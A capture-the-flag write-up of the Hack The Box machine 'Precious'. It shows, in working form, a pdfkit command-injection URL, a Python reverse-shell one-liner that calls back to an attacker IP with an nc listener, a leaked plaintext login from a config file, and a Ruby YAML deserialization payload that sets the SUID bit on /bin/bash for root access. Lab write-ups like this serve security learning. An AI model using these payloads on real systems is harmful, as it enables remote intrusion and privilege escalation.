



<h1>Precious <a href="https://app.hackthebox.com/machines/513"></a></h1>
<br>
<br>

First thing I do after I start the box is to add the Box IP to my `/etc/hosts` by adding `10.10.11.189	precious.htb` to the file. By doing this, it makes our machine can map the IP and can connect to the box without any error, form my personal experience, if we skip this step, either our nmap or website can't find the machine.

The next step is to figure out what port and service is available to us, we can start with `nmap`

```
┌──(root㉿Kiinzu)-[/etc]
└─# nmap 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-09 12:18 WIB
Nmap scan report for precious.htb (10.10.11.189)
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
```

Base on our nmap result, we can see that port 22 (ssh) and 80 (http) is opened, now we can navigate to the website.

<p align=center>
    
</p>

We can see there that the website will conver any links to pdf, so let's use python3 to spawn a http.server and see if it can make our current directory into pdf. 

```python
python3 -m http.server 8000
```

By putting our IP address as a link there like `http://<tun0-ip>:8000/` It really convert our current directory where we spawn the http.server into a pdf file.

<p align=center>
    
</p>

Now let's just download the file and see what service/program that turn URL into a PDF file.

```bash
──(kiinzu㉿Kiinzu)-[~/Downloads]
└─$ exiftool y13428kvz0l2djgl43pi3t9pkw5ubew4.pdf 
ExifTool Version Number         : 12.57
File Name                       : y13428kvz0l2djgl43pi3t9pkw5ubew4.pdf
Directory                       : .
File Size                       : 40 kB
File Modification Date/Time     : 2023:05:09 14:06:06+07:00
File Access Date/Time           : 2023:05:09 14:06:06+07:00
File Inode Change Date/Time     : 2023:05:09 14:06:06+07:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 2
Creator                         : Generated by pdfkit v0.8.6
```

There we can see that it was generated by `pdfkit v0.8.6`, the next step is obvious, we search what vulnerability this version have. From this source https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795, I suppose if we add a `?name=%20` and then using backtick before and after our command we can do a command injection, so let's test it by using the `ls` command 

```
http://<tun0-ip>:port/?name=%20`ls`
```
<p align=center>
    
</p>

Now that we know it can execute command, we can try reverse shell using python3, after some trial and error I finally found a working python3 script like this:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Now using we need to start a listening port using `nc -lvnp 4444` and change the script IP and PORT to our IP and listening port, then put it on the website and see if we got any reverse shell.

```bash
┌──(kiinzu㉿Kiinzu)-[~/Downloads]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.11.189] 35186
$ ls
ls
app  config  config.ru	Gemfile  Gemfile.lock  pdf  public
$ whoami
whoami
ruby
$ 
```

## User Flag

Well we got the shell of ruby, if we look around the home folder, where the `user.txt` flag should be, we can see that there are 2 user, `henry` and `ruby` and the `user.txt` belongs to henry, so for now we can only search in ruby's home folder, and there is a hidden folder called `.bundle`, inside there is a file called `config` that has the login creds for henry

```bash
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

With this information we can login to henry using the ssh port and we got the user flag

<p align=center>
    
</p>

## Privilege Escalation

Now that we already got the user flag, last thing left is to do a privilege escalation to get the root flag, we can check first if we're allowed to run sudo command as henry by running `sudo -l`

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
We can see there that henry is allowed to run `update_dependencies.rb`, ruby file, now we can see first what that ruby do.

**update_dependencies.rb**
```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

The file is actually read a file called `dependencies.yml`, I look for a "ruby privilege Escalation" on google and found this website https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/ that provide us an example, based on this website, I understand that changing the `git_set: ` to our desired payload can help us do privilege escalation, in this case we can see that the `/bin/bash` is owned by `root`, we can confirm this by running `ls -al /bin/bash`

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

We can use the payload `chmod u+s /bin/bash` and create a dependencies.yml file. The payload there means when we run the `/bin/bash` command, it'll run as the file owner, which is root.

**dependencies.yml**
```ruby
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

Now we just need to run the only sudo command we're allowed to run `sudo /usr/bin/ruby /opt/update_dependencies.rb`, and then we just run `bash -p`, and see what we got.

```bash
henry@precious:~$ bash -p
bash-5.1# ls
dependencies.yml  user.txt
bash-5.1# whoami
root
bash-5.1# 
```

Okay now we just need to go to the root directory and we finished the challenge :relaxed:

<p align=center>
    
</p>

